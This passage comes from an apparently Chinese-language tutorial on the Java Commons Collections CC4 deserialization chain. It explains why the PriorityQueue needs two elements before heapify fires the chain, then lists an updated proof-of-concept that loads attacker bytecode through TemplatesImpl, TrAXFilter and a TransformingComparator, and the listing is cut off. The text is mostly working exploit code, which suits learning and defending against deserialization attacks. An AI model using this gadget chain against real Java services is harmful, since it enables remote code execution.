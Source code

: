 执行没反应

这是因为在入口类中PriorityQueue有些参数需要控制

![image-20240708114411102](https://s2.loli.net/2024/07/08/5bXOLfAd19s4TuB.png)

heapify中 size传入的是0，没有进入for循环。

`>>>`是无符号右移运算符，右移n位，高位补零。size最小取2，`>>>size`才大于0。

所以我们在队列中加入两个1，让size=2。

更新Poc

```java
public class cc4 {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ss.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        //ChainedTransformer
        //PriorityQueue
        //CC3
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(1);

        serialize(priorityQueue);
        unserialize("ss.ser");

```